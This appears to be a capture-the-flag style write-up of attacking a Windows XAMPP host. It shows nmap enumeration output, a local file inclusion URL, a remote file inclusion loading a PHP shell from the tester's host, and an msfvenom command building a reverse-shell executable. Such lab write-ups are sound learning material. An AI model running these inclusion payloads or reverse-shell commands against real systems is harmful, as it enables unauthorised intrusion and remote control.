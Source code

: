 #Pwned! 
```IP
192.168.164.53
```
## Enumeration
## Nmap
As always I start enumerating target ports with nmap:
```Bash
sudo nmap -sCV 192.168.164.53 -vvv -p- -oN enum/full
```
The output being:
```
PORT      STATE SERVICE       REASON          VERSION                                                                
21/tcp    open  ftp           syn-ack ttl 125 FileZilla ftpd 0.9.41 beta  
| ftp-syst:                                                                                                          
|_  SYST: UNIX emulated by FileZilla                                                                                 
135/tcp   open  msrpc         syn-ack ttl 125 Microsoft Windows RPC       
139/tcp   open  netbios-ssn   syn-ack ttl 125 Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds? syn-ack ttl 125                                                                        
3306/tcp  open  mysql?        syn-ack ttl 125           
| mysql-info: 
|_  MySQL Error: Host '192.168.45.189' is not allowed to connect to this MariaDB server
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, GetRequest, LDAPSearchReq, LPDString, NCP, NULL, TerminalServer, X11Probe, giop: 
|_    Host '192.168.45.189' is not allowed to connect to this MariaDB server
4443/tcp  open  http          syn-ack ttl 125 Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
| http-methods:                                       
|_  Supported Methods: GET HEAD POST OPTIONS          
| http-title: Welcome to XAMPP               
|_Requested resource was http://192.168.164.53:4443/dashboard/
|_http-favicon: Unknown favicon MD5: 6EB4A43CB64C97F76562AF703893C8FD
5040/tcp  open  unknown       syn-ack ttl 125
7680/tcp  open  pando-pub?    syn-ack ttl 125
8080/tcp  open  http          syn-ack ttl 125 Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-open-proxy: Proxy might be redirecting requests                                                               
| http-title: Welcome to XAMPP                                                                                       
|_Requested resource was http://192.168.164.53:8080/dashboard/
|_http-favicon: Unknown favicon MD5: 6EB4A43CB64C97F76562AF703893C8FD
49664/tcp open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
49669/tcp open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
```
## FTP 21
FileZilla ftpd 0.9.41 beta
https://github.com/NeoTheCapt/FilezillaExploit/tree/master
## SMB
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241210105939.png?raw=true)

## HTTP 8080
XAMPP
phpmyadmin Access to the requested directory is only available from the local network.
phpinfo.php
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241210105723.png?raw=true)
user rupert
big.txt
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241210110447.png?raw=true)
/site
LFI in page parameter
```
http://192.168.164.53:4443/site/index.php?page=..\..\..\..\Windows\System32\drivers\etc\hosts
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241210110647.png?raw=true)


## MYSQL 3306
Host '192.168.45.189' is not allowed to connect to this MariaDB server
## HTTP 4443
Apache httpd 2.4.43

# Exploitation
I tried RFI
```
http://192.168.164.53:4443/site/index.php?page=http://192.168.45.189/shell-ivan.php
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241210184137.png?raw=true)
# PrivEsc

## Manual

```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.189 LPORT=4444 -f exe > reverse.exe
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241210191250.png?raw=true)

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241210191226.png?raw=true)

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241210191359.png?raw=true)
## Automated

### Peass
### Mimikatz

# Lateral Movement

